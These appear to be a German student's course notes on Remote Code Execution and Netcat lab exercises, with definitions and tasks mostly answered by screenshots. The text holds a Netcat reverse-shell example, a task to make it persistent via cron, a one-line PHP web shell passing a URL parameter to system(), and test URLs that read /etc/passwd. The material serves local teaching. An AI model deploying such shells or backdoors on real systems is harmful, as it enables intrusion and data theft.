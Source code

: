 




#### Erkläre den Begriff Remote Code Execution und wie sie funktioniert in eigenen Worten.


Remote Code Execution  ist das ausführen eines Codes über remote zugriff aus der ferne .So kann ein Angreifer auf ein fremdes System oder PC ausführen  .  
  
Wie funktioniert Remote Code Execution?Ein Angreifer nutzt Sicherheitslücken , die es ihm erlauben, eigenen Code einzuschleusen und auf dem angegriffenen System auszuführen  
.Typische Ursachen für solche Lücken sind fehlerhafte Eingabeverarbeitung , schwache Authentifizierung oder falsch konfigurierte Server.  
Gelingt es dem Angreifer, seinen Code auf dem System laufen zu lassen, bestimmt er, was dieser Code tun soll – beispielsweise Programme starten, Daten verändern oder auslesen, Schadsoftware installieren eine Backdoor einrichten .




#### Welche Möglichkeiten gibt es eine RCE durchzuführen?

Dateiupload-Schwachstellen  
Injektionsangriffe  
Datenpakete maipulieren   
Server-side Request Forgery  
CVEs ausnutzen  
Datenlecks nutzen  
Zero-Day-Exploits





#### Banner-Grabbing mit Netcat

Verwende Netcat, um das Banner eines lokal laufenden Webservers (z.B. auf Port 80) abzurufen.  
  
Ziel: Zeige den HTTP-Header des Webservers.

![[Pasted image 20250715094750.png]]


#### Einfache Chatverbindung (lokal)

Starte auf Terminal 1 einen Listener und verbinde dich von Terminal 2 aus, um einen einfachen Textchat zu realisieren.

![[Pasted image 20250715095242.png]]



#### Dateiübertragung via Netcat (lokal)

  

Übertrage eine Textdatei von einem Host zum anderen.  
(Hinweis: Das wurde im Unterricht nicht explizit gezeigt.  
Tipp: Im Prinzip ist es eine Abwandlung des Textchats.)


![[Pasted image 20250715095844.png]]





#### Erkläre den Begriff Reverse Shell.


Bei einer Reverse Shell geht es darum um den zugriff und die vollständige Kontrolle über das System zu bekommen. im Prinzip bekommt man die Kontrolle über die Shell des Ziel System ,  
﻿  
﻿Im Gegensatz zu typischen Angriffen, bei denen der Angreifer versucht, sich direkt auf ein Zielsystem aufzuschalten (sogenannte "Bind Shell"), startet bei einer Reverse Shell das Zielsystem selbst die Verbindung nach außen – also aus dem internen Netzwerk des Opfers zu einem Server des Angreifers. Dies umgeht häufig Firewalls und Sicherheitsmaßnahmen, da ausgehende Verbindungen in vielen Netzwerken weniger streng kontrolliert oder blockiert werden als eingehende.  
﻿  
﻿Der Ablauf in Kurzform:  
﻿Der Angreifer richtet einen Listener auf seinem System ein, der auf eingehende Verbindungen wartet.  
﻿  
﻿Der infizierte Rechner des Opfers (nach Ausführung eines schädlichen Programms oder Skripts) stellt eine Verbindung zum Angreifer her.  
﻿  
﻿Über diese Verbindung kann der Angreifer dann Shell-Befehle an das Opfer weitergeben und deren Ausgaben empfangen.  
﻿  
﻿Beispiel: Mit Netcat lässt sich eine Reverse Shell beispielhaft so ausführen:  
﻿  
﻿Angreifer (Listener):bashnc -lvp 4444  
﻿  
﻿Opfer (Reverse Shell):bashnc 4444 -e /bin/bash


#### Reverse Shell:  
  

Nachdem der Chat und die Daateiübertragung funktionieren:  
- Erstelle eine Reverse Shell. Ein Terminal stellt das Opfer, das Andere den Angreifer dar.


![[Pasted image 20250715110601.png]]


#### Port-Scanner mit Netcat

  

Zeige, wie man mit Netscan einen schnellen Portscan durchführen kann.

![[Pasted image 20250715111033.png]]











#### Herausforderung: Einfache Backdoor mit Netcat

  

Kombiniere Netcat mit einem Cronjob oder Autostartmechanismus,  
um eine persistente Reverse Shell zu implementieren.


![[Pasted image 20250715111346.png]]

![[Pasted image 20250715111626.png]]






#### Herausforderung:  
 

Simulation eines Web Servers mit Netcat.  
  
Aufgabe:  
Benutze Netcact so, damit Anfragen auf den Port 80 (oder ein anderer freier Port, wie z.B. 8080) mit folgender Antwort quittiert werden:  
HTTP/1.1 200 OK  
Pseudo-Web Server  
 

Sinn: Auf diese Weise kannst du beliebige, offene Ports anbieten, um beispielsweise einen Honeypot zu realisieren.

![[Pasted image 20250715112015.png]]



#### Zusatzaufgabe:

  

Gestern Nachmittag haben wir zur Darstellung einer RCE ein Beispiel gesehen, in dem über die URL eines Webservers Kommandos auf der ausführenden Maschine ausgeführt werden konnten.  
  

Aufgabe:  
Baue das Szenario in deiner Testumgebung nach und zeige die Ausführung beliebiger Shell Kommandos auf der Zielrechner. ("Beliebig", unter Berücksichtigung der Rechte...)



<?php 
if (isset($_GET[          
cmd'])) { system($_GE                  
T['cmd']); } ?>


php -S localhost:8080
http://localhost/rce_example.php?cmd=ls
http://localhost/rce_example.php?cmd=whoami
http://localhost/rce_example.php?cmd=id
http://localhost/rce_example.php?cmd=uname+-a
http://localhost/rce_example.php?cmd=cat+/etc/passwd




## Ergebnisdarstellung

|Beispiel-URL|Wirkung auf dem Zielsystem|Typische Ausgabe|
|---|---|---|
|`/rce_example.php?cmd=ls`|Verzeichnisinhalt|listet Dateien auf|
|`/rce_example.php?cmd=whoami`|Aktiver Systemuser|z.B. `www-data`|
|`/rce_example.php?cmd=uname+-a`|Systeminfos|Kernel-Version usw.|
|`/rce_example.php?cmd=cat+/etc/passwd`|Inhalt einer Systemdatei|(nur falls Server-Rechte ausreichen!)|